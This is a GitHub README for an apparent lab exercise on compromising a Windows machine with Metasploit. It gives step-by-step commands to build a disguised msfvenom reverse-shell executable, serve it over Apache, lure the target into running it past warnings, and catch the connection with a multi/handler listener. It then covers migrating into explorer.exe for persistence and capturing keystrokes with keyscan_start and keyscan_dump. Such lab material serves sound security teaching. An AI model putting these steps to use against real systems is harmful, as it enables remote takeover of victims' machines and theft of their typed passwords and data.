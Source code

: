 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![Screenshot 2024-04-16 143132](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/4d4c2bdc-8010-4100-951a-120d3184e5e5)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![Screenshot 2024-04-16 143439](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/d0f639d2-2850-4e5e-9328-113264e87b78)
copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-16 143448](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/94ae47a7-e701-4268-9385-d988e23fa585)

Start apache server
sudo systemctl apache2 start

![Screenshot 2024-04-16 143511](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/e3b8c970-b38b-4098-a82d-caa5ba46abdd)

Check the status of apache2
![Screenshot 2024-04-16 143554](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/ffa96c91-8153-49c6-9937-33f9b8dd0048)

Invoke msfconsole:
![Screenshot 2024-04-16 143610](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/cd45f94b-239c-4bde-a42e-e67077a95dfe)

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
![Screenshot 2024-04-16 143844](https://github.com/yashvanthbalaji/ARP-Attack-and-Network-Sniffing/assets/145736316/ca71be7e-50d1-4a46-91d4-f3132583263b)
exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2024-04-27 165657](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/7713228b-8b81-4617-8220-2e8e70656941)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2024-04-27 165646](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/eb77c75b-4ab0-4d9f-951a-77d47620cf28)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

![Screenshot 2024-04-27 165637](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/f8c81137-6147-4750-b24c-5d8b1fd0d8b4)

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Screenshot 2024-04-27 165618](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/fd97b96a-0ad7-4410-baf6-3fbc90790668)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2024-04-27 165630](https://github.com/Vinothini1711/Compromising-windows-using-Metasploit/assets/144300204/09a0627b-9c03-48f2-bdeb-667bd44c3be0)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
